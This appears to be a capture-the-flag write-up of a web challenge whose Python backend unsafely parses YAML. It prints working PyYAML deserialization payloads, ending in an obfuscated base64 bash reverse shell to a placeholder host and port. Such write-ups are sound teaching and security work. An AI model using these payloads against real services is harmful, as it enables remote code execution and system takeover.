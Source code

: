 # Loader challenge Writeup : 

- Challenge Name : Loader

- Weight : 400 pts



TL;DR : Exploiting a Python De-Serialization leading to an RCE thanks To yaml/PyYaml.



This is the main challenge page "adminer loader" with a data submission form.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/loadder_x.gif?token=GHSAT0AAAAAABTT5PBKXFRB2D3HCN5AH6JMYS6DYIA)




as you can see! you simply submit an input text and it get reflected/alerted.



looking under the hood we have this interesting js script that actually posts data on `api/load`, and after posting it! it gets alerted.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/magic_behind.PNG?token=GHSAT0AAAAAABTT5PBLQKOWFT3YEZU5CLYGYS6DZBQ)

one more interesting thing is the `btoa()` js function that converts the input string to an base64. confirmed by intercepting the request on burp as shown.
the response also show an interesting server header indicating that this runs on py.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/burp_2.PNG?token=GHSAT0AAAAAABTT5PBKYKRVP6QCZJV6PTIIYS6D2OQ)

Challenge hint mentioned a data format used by SOC Team leads and Threat hunters, after some time it was obviously yaml.


> .... (and) YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored...

spent sometime reading papers and references along with g0rchy ended up with constructing a "checkup payload" to check if we really about to solve this challenge. 



checkup payload looked like this : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '1+1' ]]]`

simple `!!python/object/new:tuple` to initiate a tuple since were running on YAML...,  `map()` to serve both the function and the iterable that will be "mapped" and `eval()` to check the legality of the python statement... and you know 1+1 :) .






seems like we are in the correct direction!


The second payload we did call python and tried to get at least the built-in python-id trace : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('id')" ]]]`

Returned with the `os.system()` encoded exit value 0 that means success! well, that's great.

The last constructed payload is to get a bash rev shell

according to my teammate g0rchy in APTx1337 who likes keeping the team's work as based as possible we used base64 encoded bash reverse shell, and for the guys who can't handle based-ness you can use escaped quotes bash payloads!

the final payload looks like this : 


> ` !!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvJExIT1NULyRMUE9SVCAwPiYx|base64 -d|bash')" ]]]`

and...













it works! 
